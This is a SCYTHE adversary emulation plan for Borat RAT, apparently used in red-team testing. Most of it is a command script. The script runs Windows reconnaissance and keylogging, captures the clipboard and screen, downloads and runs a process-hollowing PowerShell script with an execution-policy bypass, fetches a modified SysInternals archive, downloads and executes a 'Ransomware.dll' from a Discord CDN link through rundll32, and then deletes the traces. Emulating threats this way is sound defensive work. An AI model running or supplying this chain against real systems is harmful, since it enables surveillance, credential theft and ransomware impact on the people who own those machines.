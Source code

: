 # Borat RAT - Adversary Emulation Plan

This threat was created by Randy Pargman from BinaryDefense based on the this threat intelligence from March 31, 2022: https://blog.cyble.com/2022/03/31/deep-dive-analysis-borat-rat/

## Automated Adversary Emulation with SCYTHE

1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under BoratRAT/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/
4. Create a new campaign `BoratRAT` with HTTPS.
5. Import from Existing Threat: BoratRAT
6. Launch the Campaign

## Manual Adversary Emulation with SCYTHE
Start a SCYTHE campaign and manually execute the below commands:
```
loader --load run
run cmd /c "echo ####System Info#### & systeminfo & echo ####System Vesion#### & ver & echo ####Host Name#### & hostname & echo ####Environment Variable##### & set & echo ####Logical Disk##### & wmic logicaldisk get caption,description,providername & echo ####User Info#### & net user & echo ####Online User#### & query user & echo ####Local Group#### & net localgroup & echo ####Administrators### & net localgroup administrators & echo ####Guest User#### & net user guest & echo ####Administrator User Info#### & net user administrator & echo ####Startup Info#### & wmic startup get caption,command & echo ####Tasklist#### & tasklist /svc & echo ####Ipcofig#### & ipconfig /all & echo ####Hosts#### & type C:\WINDOWS\System32\drivers\etc\hosts & echo ####Route Table#### & route print & echo ####Arp Info#### & arp -a & echo ####Netstat#### & netstat -ano & echo ####Service Info#### & sc query type= service state= all & echo ####FirewallInfo#### & netsh firewall show state & netsh firewall show config"
loader --load keylogger
keylogger --start
delay --time 300
keylogger --current
keylogger --stop
loader --load clipboard
clipboard
loader --load printscr
printscr --window Desktop
delay --time 180
clipboard
printscr --window Desktop
run cmd.exe /c set
run wmic logicaldisk get caption,description,providername
run net user
run net user administrator
run wmic startup get caption,command
run tasklist /svc
run ipconfig /all
run cmd.exe /c type C:\WINDOWS\System32\drivers\etc\hosts
run route print
run arp -a
run netstat -ano
run sc query type= service state= all
run cmd.exe /c netsh firewall show state & netsh firewall show config
loader --load downloader
loader --load file
loader --load upsh
downloader --src "https://raw.githubusercontent.com/FuzzySecurity/PowerShell-Suite/master/Start-Hollow.ps1" --dest %USERPROFILE%/Start-Hollow.ps1
run powershell.exe Set-ExecutionPolicy Bypass -Scope Process -Force ; Invoke-Command -ScriptBlock {. $env:userprofile\Start-Hollow.ps1; $ppid="Get-Process explorer | select -expand id"; Start-Hollow -Sponsor "C:\Windows\System32\calc.exe" -Hollow "C:\Windows\System32\cmd.exe" -ParentPID $ppid -Verbose}
upsh --cmd "Invoke-Command -ScriptBlock {Stop-Process -Name "calc" -ErrorAction Ignore; }"
upsh --cmd "Invoke-Command -ScriptBlock { Invoke-WebRequest "https://github.com/mitre-attack/attack-arsenal/raw/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/Modified-SysInternalsSuite.zip" -OutFile "$env:TEMP\Modified-SysInternalsSuite.zip"; Expand-Archive $env:TEMP\Modified-SysInternalsSuite.zip $env:TEMP\sysinternals -Force; Remove-Item $env:TEMP\Modified-SysInternalsSuite.zip -Force}"
upsh --cmd "if (Test-Path $env:TEMP\SysInternals) {echo 1} else {echo 0}"
upsh --cmd "Invoke-Command -ScriptBlock {Set-Location -path "$env:TEMP\Sysinternals";; ./accesschk.exe -accepteula .;}"
run powershell del $env:TEMP\Sysinternals -Force -Recurse -ErrorAction Ignore
run powershell.exe del $env:userprofile/Start-Hollow.ps1
downloader --src "https://cdn.discordapp.com/attachments/853389026839756837/960944365335904286/Ransomware.dll" --dest %USERPROFILE%/Desktop/Ransomware.dll
run cmd /c cd %USERPROFILE%\Desktop & rundll32 Ransomware.dll,DropNote
run powershell del $env:USERPROFILE\Desktop\Ransomware.dll -Force -ErrorAction Ignore
controller --shutdown
```